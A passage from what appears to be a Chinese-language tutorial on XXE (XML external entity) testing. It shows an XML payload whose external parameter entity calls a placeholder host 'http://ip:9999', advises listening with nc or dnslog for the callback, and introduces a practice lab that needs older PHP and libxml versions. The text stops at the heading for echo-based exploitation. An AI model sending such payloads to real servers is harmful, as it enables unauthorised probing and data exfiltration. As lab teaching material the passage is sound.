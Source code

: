 ### **（2）检测服务器是否支持外部实体：**

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE ANY [
<!ENTITY % dog SYSTEM "http://ip:9999">
%dog;
]>
```

通过nc监听查看是否发送了请求，也可以通过dnslog来查看。

![img](XXE.assets/modb_20211021_19c293c4-3260-11ec-b086-fa163eb4f6be.png)

![img](XXE.assets/modb_20211021_19e84fa6-3260-11ec-b086-fa163eb4f6be.png)

### **（3）判断是否有回显结果，无回显则使用xxe盲打**

## 3. 测试靶场

### xxe-lab

这里我们要求php版本为5.2，5.3，5.4，因为他们的libxml版本为2.7.7，2.7.8 允许加载外部实体，libxml版本在2.9.1之后，默认是不解析外部实体

**有回显的XXE利用：**
